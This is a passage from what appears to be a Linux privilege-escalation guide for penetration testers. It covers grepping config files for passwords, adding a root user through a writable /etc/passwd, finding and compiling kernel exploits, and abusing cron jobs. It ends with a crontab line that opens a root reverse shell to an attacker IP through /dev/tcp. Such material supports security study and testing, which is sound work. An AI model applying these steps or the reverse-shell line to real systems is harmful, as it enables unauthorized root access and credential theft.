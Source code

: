         - Configuration Files (Credential Harvesting): Examine configuration files (`*.conf`, `*.ini`, etc.) for plaintext passwords, API keys, or other sensitive information.  Use `grep -Ri "password" /etc` and similar searches.
        - /etc/passwd Manipulation: *If* `/etc/passwd` is writable (highly unlikely but possible), you can add a new user with UID 0 (root).  This gives you immediate root access.  *Extremely rare*.

# 2.4. Kernel Exploits: *Medium to High Priority (but more complex)*

    - Explanation: Kernel vulnerabilities can allow arbitrary code execution with root privileges.
    - Enumeration: `uname -a` (kernel version).
    - Exploitation:
        - Search Exploit-DB: Search for kernel exploits specific to the identified kernel version (e.g., `searchsploit kernel 4.15.0`).
        - CVE Databases:  Search CVE databases (NVD, etc.) for known kernel vulnerabilities.
        - Metasploit: Metasploit may have kernel exploit modules.
        - Kernel Pwn Frameworks: Consider using specialized kernel exploitation frameworks (e.g., Linux Exploit Suggester) to identify potential vulnerabilities.  These tools analyze the kernel version and installed packages to suggest relevant exploits.  Some examples include:
            - linux-exploit-suggester.sh (LES):  A classic tool for suggesting kernel exploits.
            - kernelpop: A more modern kernel exploitation framework.
        - Compiling Exploits: Kernel exploits often require compilation. Make sure you have the necessary development tools (e.g., `gcc`, `make`, kernel headers). You may need to install kernel headers matching the target kernel:  `apt-get install linux-headers-$(uname -r)` or `yum install kernel-devel-$(uname -r)`.
        - Testing: *Absolutely critical*.  Test the exploit in a *controlled environment* (e.g., a virtual machine running the same kernel version) before deploying it against the real target. Kernel exploits can be unstable and may crash the system.
    - Important Notes:
        - **Kernel exploits are often architecture-specific (x86, x64, ARM).**
        - **Kernel exploits may require specific compiler flags and linker options.**
        - **Kernel exploits can be highly dependent on the target system's configuration.**
        - **Kernel exploits are generally considered high-risk and should be used with caution.**

# 2.5. Exploiting Scheduled Tasks (Cron Jobs): *Medium Priority*

    - Explanation: Cron jobs are scheduled tasks that run automatically. If you can modify a script executed by a cron job running as root, you can gain elevated privileges.
    - Enumeration:
        - cat /etc/crontab : System-wide crontab.
        - ls -la /etc/cron.d :  Directory containing cron job definitions.
        - ls -la /var/spool/cron : User-specific crontabs.
        - getfacl /etc/crontab : Check ACLs on the crontab file.
        - getfacl /etc/cron.d/* : Check ACLs on files in `/etc/cron.d`.
    - Exploitation:
        - Writable Cron Files: If you can modify `/etc/crontab` or files in `/etc/cron.d` (due to weak permissions or ACLs), you can add your own cron job to execute arbitrary commands as root.
        - **Writable Cron Scripts: If you find a cron job that executes a script that you can modify (due to weak file permissions on the script itself), you can inject malicious code into the script.
        - Race Conditions: In some cases, you can exploit race conditions in cron jobs. For example, if a cron job creates a temporary file, you might be able to create the file first with your own malicious content, before the cron job has a chance to create it with the intended content.
    - Example: If you can modify `/etc/crontab`, add a line like this to execute a reverse shell as root every minute:
        ```
        * * * * *  root /bin/bash -c "bash -i >& /dev/tcp/<attacker_IP>/<attacker_port> 0>&1"
        ```
